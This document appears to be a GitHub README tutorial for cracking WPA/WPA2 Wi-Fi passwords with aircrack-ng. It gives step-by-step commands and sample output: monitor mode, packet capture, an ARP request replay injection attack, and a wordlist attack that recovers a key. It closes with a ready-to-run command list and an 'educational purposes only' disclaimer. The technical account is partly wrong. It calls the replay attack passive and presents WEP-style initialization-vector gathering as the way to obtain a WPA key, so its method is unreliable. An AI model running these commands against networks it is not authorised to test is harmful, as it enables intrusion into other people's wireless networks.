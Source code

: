 # Wifi-Password-Cracking-Using-Aircrack-Ng

[Aircrack-ng](https://aircrack-ng.org/) is basically a network software suite that has been crafted to achieve the following objectives:

* packet sniffing
* attacking (replay attacks, deauthentication, fake access points...) via packet injection
* testing Wi-Fi cards and driver capabilities (capture and injection)
* cracking WEP and WPA/WPA2 Wi-Fi routers

Note that the present tutorial is not an exhaustive guide, rather it is intended to build some basic skills to test your own network's security and get familiar with the concepts.

The attack outlined below is based on a passive technique (ARP request replay attack) and it focuses on debian-based distributions assuming you have a working wireless card with drivers already patched for injection.

## Aircrack-ng installation

Aircrack-ng can be installed on a debian-based operating system by compiling the source code (for more details you can visit the [official website](https://aircrack-ng.org/)).

### Installing required and optional dependencies

Below you can find instructions for installing the basic requirements to build aircrack-ng for Debian-based operating systems.

```ShellSession
$ sudo apt install build-essential autoconf automake libtool pkg-config libnl-3-dev libnl-genl-3-dev libssl-dev ethtool shtool rfkill zlib1g-dev libpcap-dev libsqlite3-dev libpcre3-dev libhwloc-dev libcmocka-dev hostapd wpasupplicant tcpdump screen iw usbutils
```

Get the latest copy of aircrack-ng:

```ShellSession
$ git clone https://github.com/aircrack-ng/aircrack-ng
$ cd aircrack-ng
```

### Compiling and installing

To build aircrack-ng, the Autotools build system is used.
First, `./configure` the project for building with the appropriate options:

```ShellSession
$ autoreconf -i
$ ./configure --with-experimental
```

Next, compile the project with the `make` command and use the "installing" target from the additional targets listed below to complete the installation.

* Execute all unit testing: `make check`
* Execute all integration testing (requires root): `make integration`
* Installing: `make install`
* Uninstall: `make uninstall`

## Test wireless device packet injection

The purpose of this step ensures that your card successfully supports injection.
Assuming your interface name is "wlan0" (you can retrieve it typing `iwconfig` on the terminal), type the following command:

```ShellSession
# aireplay-ng --test wlan0
```

The system responds:

```ShellSession
18:10:59  wlan0 channel: 10
18:10:59  Trying broadcast probe requests...
18:10:59  Injection is working!
18:11:00  Found 1 AP
...
```

This confirms your card can inject packets.

## Simple sniffing and cracking

### 1. Start the wireless interface in monitor mode

The first thing to do is looking out for a potential target putting your wireless card into monitor mode using `airmon-ng`. However, it is strongly recommended to `kill` all interfering processes prior to using the aircrack-ng suite.

```ShellSession
# airmon-ng check kill
Killing these processes:

  PID Name
  870 dhclient
 1115 wpa_supplicant
```

Then, it is possible to enable the monitor mode used to create another interface (mon0):

```ShellSession
# airmon-ng start wlan0

PHY         Interface       Driver         Chipset

phy0        wlan0           ath9k          Qualcomm Atheros AR9485
                               (monitor mode enabled for [phy0]wlan0 on [phy0]mon0)
```

You will notice that "wlan0" has successfully been put into monitor mode.
Then, start `airodump-ng` to look out for networks:

```ShellSession
# airodump-ng mon0
```

Locate the wireless network you want to crack, and note its BSSID and channel from the following output:

```ShellSession
CH 10 ][ Elapsed: 36 s][2019-05-15 18:15
BSSID              PWR  RXQ  Beacons  #Data,  #/s  CH  MB  ENC  CIPHER AUTH ESSID
08:00:BF:E6:31:2E  -21  100     5240  178307  338  10  54  WPA  CCMP   PSK  infosec_router
...
```

Note that the top part of the output lists information about APs in range, and the bottom part lists clients connected to the corresponding APs.

### 2. Start airodump-ng to capture the initial vectors

Open another console session to capture the initial vectors generated by the target and to save the result into a file:

```ShellSession
# airodump-ng -c 10 --bssid 08:00:BF:E6:31:2E -w output-file mon0
```

where `-c 10` is the channel for the wireless network, `--bssid 08:00:BF:E6:31:2E` is the MAC address of the AP, `-w output-file` defines the output files that will contain the initialization vectors, and `mon0` is the interface name.

The system responds:

```ShellSession
CH 10 ][ Elapsed: 12 s][2019-05-15 18:16
BSSID              PWR  RXQ  Beacons  #Data,  #/s  CH  MB  ENC  CIPHER AUTH ESSID
08:00:BF:E6:31:2E  -21  100     5240  178307  338  10  54  WPA  CCMP   PSK  infosec_router

BSSID              STATION            PWR  Lost  Packets  Probes
08:00:BF:E6:31:2E  00:0F:35:51:AC:22  -21     0   183782
```

After the execution of the command various files will be generated.

### 3. Start aireplay-ng in ARP request replay mode

The classic ARP request replay attack is the most effective way to generate new initialization vectors, and works very reliably. The purpose of this step is to start `aireplay-ng` in a mode which listens for ARP requests then reinjects them back to the access point.
Keep your `airodump-ng` and `aireplay-ng` running, open another terminal and run the ARP request replay attack:

```ShellSession
# aireplay-ng --arpreplay -b 08:00:BF:E6:31:2E -h 00:0F:35:51:AC:22 mon0

Saving ARP requests in replay_arp-0321-191525.cap
You should also start airodump-ng to capture replies.
Read 618643 packets (got 304896 ARP requests), sent 194947 packets...
```

You can check if the packets are injected by looking at the `airodump-ng` screen.

### Run aircrack-ng to obtain the WPA key

At this point, you should be able to obtain the WPA key from the initialization vectors gathered in the previous steps. To perform this attack you need a wordlist and if the network password is not in the wordfile you will not crack the password. Note that most WPA/WPA2 routers come with strong 12 character random passwords that many users (rightly) leave unchanged. If you are attempting to crack one of these passwords, I recommend using the [WPA-length password lists](https://github.com/david-palma/wordlists#passwords-with-wpa-length).

Open another console session and type:

```ShellSession
# aircrack-ng -a2 -b 08:00:BF:E6:31:2E -w wordlist.txt output*.cap
```

where `-a2` specifies the attack mode for WPA/WPA2-PSK,  `-w wordlist.txt` refers to your own dictionary wordlist, and `output*.cap` selects all output files with `.cap` extension.

This is the output of a successful attack:

```ShellSession
                        Aircrack-ng 1.5.2
[00:00:00] 192/1229 keys tested (520.04 k/s)

Time left: 0 seconds                                      15.62%

                     KEY FOUND! [ notsecure ]

Master Key     : 42 28 5E 5A 73 33 90 E9 34 CC A6 C3 B1 CE 97 CA
                 06 10 96 05 CC 13 FC 53 B0 61 5C 19 45 9A CE 63

Transient Key  : 86 D0 43 C9 AA 47 F8 03 2F 71 3F 53 D6 65 F3 F3
                 86 36 52 0F 48 1E 57 4A 10 F8 B6 A0 78 30 22 1E
                 4E 77 F0 5E 1F FC 73 69 CA 35 5B 54 4D B0 EC 1A
                 90 FE D0 B9 33 06 60 F9 33 4B CF 30 B4 A8 AE 3A

EAPOL HMAC     : 8E 52 1B 51 E8 F2 7E ED 95 F4 CF D2 C6 D0 F0 68
```

## List of commands

Below you can find the list of all of the commands needed to crack a WPA/WPA2 network.

```
# kill all interfering processes prior to using the aircrack-ng
airmon-ng check kill

# put your network device into monitor mode
airmon-ng start wlan0

# listen for all nearby beacon frames to get target BSSID and channel
airodump-ng mon0

# start listening for the handshake on a new console session
airodump-ng -c 10 --bssid 08:00:BF:E6:31:2E -w output-file mon0

# start the ARP request replay attack
aireplay-ng --arpreplay -b 08:00:BF:E6:31:2E -h 00:0F:35:51:AC:22 mon0

# run aircrack-ng to obtain the WPA key
aircrack-ng -a2 -b 08:00:BF:E6:31:2E -w wordlist.txt output*.cap
```


## Disclaimer

This tutorial has been made for educational purposes only, I don't promote malicious practices and I will not be responsible for any illegal activities.
